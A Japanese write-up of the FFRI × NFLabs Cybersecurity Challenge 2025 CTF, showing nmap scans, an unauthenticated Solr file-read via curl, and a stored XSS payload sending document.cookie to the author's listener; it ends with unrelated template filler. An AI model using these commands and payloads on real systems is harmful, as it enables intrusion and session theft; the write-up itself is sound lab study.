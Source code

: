 ```yaml
---
title: "FFRI × NFLabs. Cybersecurity Challenge 2025 Writeup & Upsolve"
date: 2025-09-15
---
```


# FFRI × NFLabs. Cybersecurity Challenge 2025 Writeup

FFRI × NFLabs. Cybersecurity Challenge 2025 に参加し、結果は **13位** でした。Top10入りを目標にしていたので悔しい……。

![ranking](/src/content/image/FFRI_NFLabs_ranking.png)

## Welcome [ 1/1 ]

### Welcome [175pt / 66 solves]
提出のみ。

```
flag{Good_Luck_and_Have_Fun!}
```

---

## Pentest [ 3/7 ]

### HiddenService [255pt / 50 solves]

`nmap` で 22/tcp (ssh)、31337/tcp (Apache) を確認。

```bash
$ nmap 10.0.129.138 -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 16:51 JST
Nmap scan report for ip-10-0-129-138.ap-northeast-1.compute.internal (10.0.129.138)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
31337/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```

31337 番にアクセスすると簡易シェルに入れたため、`ls`/`cat` で探索して `flag.txt` を取得。

![Hidden_result](/src/content/image/Hidden_result.png)

```
flag{Ch4nging_th3_p0rt_is_p0intl3ss}
```

---

### Shell4Solr [455pt / 16 solves]

`nmap` で 80/tcp (Apache Solr)、2222/tcp (ssh) を確認。80 番は **Apache Solr 8.11.0** の管理画面。

```bash
$ nmap 10.0.129.148 -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 17:19 JST
Nmap scan report for ip-10-0-129-148.ap-northeast-1.compute.internal (10.0.129.148)
Host is up (0.0017s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache Solr
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.51 seconds
```

ログ画面（`/admin/info/logging`）に **`authentication=disabled, authorization=disabled`** と表示。
![warn](/src/content/image/Solr_warn.png)
Solr にはデバッグ用途の **DumpRequestHandler** があり、`ContentStreams (stream.*)` をそのまま返すため、認証なしで開いていれば **LFI** が狙えると判断。
まずは `/etc/passwd` を読めるか検証：

```bash
curl -s "http://10.0.129.128:80/solr/$CORE/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd"
```

<details>
<summary><b>レスポンス（抜粋・JSON）</b></summary>

```json
{
  "responseHeader": { "status": 0, "handler": "org.apache.solr.handler.DumpRequestHandler" },
  "params": { "stream.url": "file:///etc/passwd", "param": "ContentStreams" },
  "streams": [
    {
      "sourceInfo": "url",
      "stream": "root:x:0:0:root:/root:/bin/ash\n...snip...\nsolr:x:1000:1000:Linux User,,,:/opt/solr:/bin/ash\n"
    }
  ]
}
```
</details>

`HOME=/opt/solr`, `PWD=/opt/solr/server` などから flag の置き場所を当たり、いくつかの典型パスを総当たり。

```bash
CORE=${CORE:-core0}
BASE="http://10.0.129.128:80/solr/$CORE/debug/dump?param=ContentStreams&stream.url=file://"

for p in \
  /etc/flag /etc/flag.txt \
  /opt/flag /opt/flag.txt \
  /var/flag /var/flag.txt \
  /opt/solr/flag /opt/solr/flag.txt \
  /opt/solr/server/flag /opt/solr/server/flag.txt \
  /opt/solr/server/solr/flag /opt/solr/server/solr/flag.txt \
  /var/solr/flag /var/solr/flag.txt \
  /run/secrets/flag /run/secrets/flag.txt /run/secrets/FLAG \
  /etc/motd /etc/issue /etc/hostname
do
  echo "=== $p"
  curl -s "${BASE}$p"
  echo
done
```

`/opt/solr/server/flag.txt` でヒット：

<details>
<summary><b>レスポンス（JSON）</b></summary>

```json
{
  "responseHeader": { "status": 0 },
  "params": { "stream.url": "file:///opt/solr/server/flag.txt" },
  "streams": [
    { "sourceInfo": "url", "stream": "flag{l0g4j_s0lr_r3vshell}" }
  ],
  "context": { "path": "/debug/dump", "httpMethod": "GET" }
}
```
</details>

```
flag{l0g4j_s0lr_r3vshell}
```

> 余談：当初は Log4Shell の RCE PoC を試したがJDK17でビルドがうまくいかず、GPTに聞きながら1時間くらい格闘してました

---

## Web [ 3/4 ]
### Secure Web Company [300pt / 41 solves]
Dockerfileを見るとREADME.mdが公開されていた。
```Dockerfile
FROM nginx:alpine
COPY index.html script.js style.css README.md /usr/share/nginx/html/
```
```bash
$ curl http://10.0.129.147:8090/README.md 
# 開発者向け

## 管理画面認証情報

- ユーザー名: admin
- パスワード: flag{5up3r53cr37_4dm1n_p455w0rd}
```
```
flag{5up3r53cr37_4dm1n_p455w0rd}
```

### Timecard [380pt / 25 solves]
問題文を読んで、managerのアカウントが1分に1回申請を承認するようになっていたのでStored XSSを使う問題なのかとなぁと思いながら問題を解き始めた。案の定app.pyを見ると、`HttpOnly=false`となっていた。
加えてmanager側の`manager_dashboard.html.js`で`{{ remarks }}`をそのままhtmlとして解釈できるようになっていた。
```PY
app.config['SESSION_COOKIE_HTTPONLY'] = False
app.config['SECRET_KEY'] = SECRET_KEY
app.config['SQLALCHEMY_DATABASE_URI'] = f"mysql+pymysql://{MYSQL_USER}:{MYSQL_PASSWORD}@{MYSQL_HOST}/{MYSQL_DATABASE}"
```
```html
    <ul>
        {% for timecard in timecards %}
            <li>
                {{ timecard.date }}: {{ timecard.start_time }} - {{ timecard.end_time }} ({{ timecard.remarks }})
                <!-- 状態表示 -->
                {% if timecard.cancel_requested %}
                    - <span style="color:orange;">取り消し申請中</span>
                    <form action="{{ url_for('approve_timecard', timecard_id=timecard.id) }}" method="post" style="display:inline;">
                        <button type="submit">取り消し申請承認</button>
                    </form>
                {% elif timecard.approved %}
                    - <span style="color:green;">承認済み</span>
                {% else %}
                    - <span style="color:red;">未承認</span>
                    <form action="{{ url_for('approve_timecard', timecard_id=timecard.id) }}" method="post" style="display:inline;">
                        <button type="submit">承認</button>
                    </form>
                {% endif %}
            </li>
        {% endfor %}
    </ul>
```
これを使ってStored XSSを行う。managerが1分に1回承認しに来るので、そこに`document.cookie`を仕込むことでmanagerのsessionを奪う。まずは待ち受けを立てる
```PY
python3 -m http.server 8000
```
後はremarksの部分にStored XSSを仕込む
```
<img src=x onerror="new Image().src='http://10.0.0.49:8000/?c='+encodeURIComponent(document.cookie)">
```
するとmanagerからのcookieがStored XSSによって窃取できたので、それを自身のcookieにセットする。それでflagが得られた。
```
flag{H9aDSMkTCWZMEuk25nZw}
```

## Malware Analysis [ 2/4 ]
### Downloader
（省略）

## Binary [ 2/4 ]
### Abnormal
（省略）

## Misc [ 3/4 ]
### Bellaso

```js
const hello = () => {
  console.log("Hello, World!");
};
```

> 引用テキストの例です。

[リンクの例](https://example.com)

**太字**や*斜体*のテキストも使用できます。
